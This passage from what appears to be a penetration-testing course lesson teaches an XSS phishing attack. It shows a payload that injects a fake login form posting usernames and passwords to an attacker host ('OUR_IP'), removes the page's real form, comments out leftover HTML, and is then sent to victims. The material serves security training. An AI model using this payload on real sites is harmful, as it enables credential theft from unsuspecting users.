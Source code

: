 <pre><code class="language-javascript">document.write('&lt;h3&gt;Please login to continue&lt;/h3&gt;&lt;form action=http://OUR_IP&gt;&lt;input type="username" name="username" placeholder="Username"&gt;&lt;input type="password" name="password" placeholder="Password"&gt;&lt;input type="submit" name="submit" value="Login"&gt;&lt;/form&gt;');
</code></pre>
<p>We can now inject this JavaScript code using our XSS payload (i.e., instead of running the <code>alert(window.origin)</code> JavaScript Code). In this case, we are exploiting a <code>Reflected XSS</code> vulnerability, so we can copy the URL and our XSS payload in its parameters, as we've done in the <code>Reflected XSS</code> section, and the page should look as follows when we visit the malicious URL:</p>
<img class="website-screenshot" data-url="http://SERVER_IP/phishing/index.php?url=...SNIP..." src="/storage/modules/103/xss_phishing_injected_login_form.jpg"/>
<hr/>
<h2>Cleaning Up</h2>
<p>We can see that the URL field is still displayed, which defeats our line of "<code>Please login to continue</code>". So, to encourage the victim to use the login form, we should remove the URL field, such that they may think that they have to log in to be able to use the page. To do so, we can use the JavaScript function <code>document.getElementById().remove()</code> function.</p>
<p>To find the <code>id</code> of the HTML element we want to remove, we can open the <code>Page Inspector Picker</code> by clicking [<code>CTRL+SHIFT+C</code>] and then clicking on the element we need:
<img alt="Page Inspector Picker" src="https://academy.hackthebox.com/storage/modules/103/xss_page_inspector_picker.jpg"/></p>
<p>As we see in both the source code and the hover text, the <code>url</code> form has the id <code>urlform</code>:</p>
<pre><code class="language-html">&lt;form role="form" action="index.php" method="GET" id='urlform'&gt;
    &lt;input type="text" placeholder="Image URL" name="url"&gt;
&lt;/form&gt;
</code></pre>
<p>So, we can now use this id with the <code>remove()</code> function to remove the URL form:</p>
<pre><code class="language-javascript">document.getElementById('urlform').remove();
</code></pre>
<p>Now, once we add this code to our previous JavaScript code (after the <code>document.write</code> function), we can use this new JavaScript code in our payload:</p>
<pre><code class="language-javascript">document.write('&lt;h3&gt;Please login to continue&lt;/h3&gt;&lt;form action=http://OUR_IP&gt;&lt;input type="username" name="username" placeholder="Username"&gt;&lt;input type="password" name="password" placeholder="Password"&gt;&lt;input type="submit" name="submit" value="Login"&gt;&lt;/form&gt;');document.getElementById('urlform').remove();
</code></pre>
<p>When we try to inject our updated JavaScript code, we see that the URL form is indeed no longer displayed:</p>
<img class="website-screenshot" data-url="http://SERVER_IP/phishing/index.php?url=...SNIP..." src="/storage/modules/103/xss_phishing_injected_login_form_2.jpg"/>
<p>We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:</p>
<pre><code class="language-html">...PAYLOAD... &lt;!-- 
</code></pre>
<p>As we can see, this removes the remaining bit of original HTML code, and our payload should be ready. The page now looks like it legitimately requires a login:</p>
<img class="website-screenshot" data-url="http://SERVER_IP/phishing/index.php?url=...SNIP..." src="/storage/modules/103/xss_phishing_injected_login_form_3.jpg"/>
<p>We can now copy the final URL that should include the entire payload, and we can send it to our victims and attempt to trick them into using the fake login form. You can try visiting the URL to ensure that it will display the login form as intended. Also try logging into the above login form and see what happens.</p>
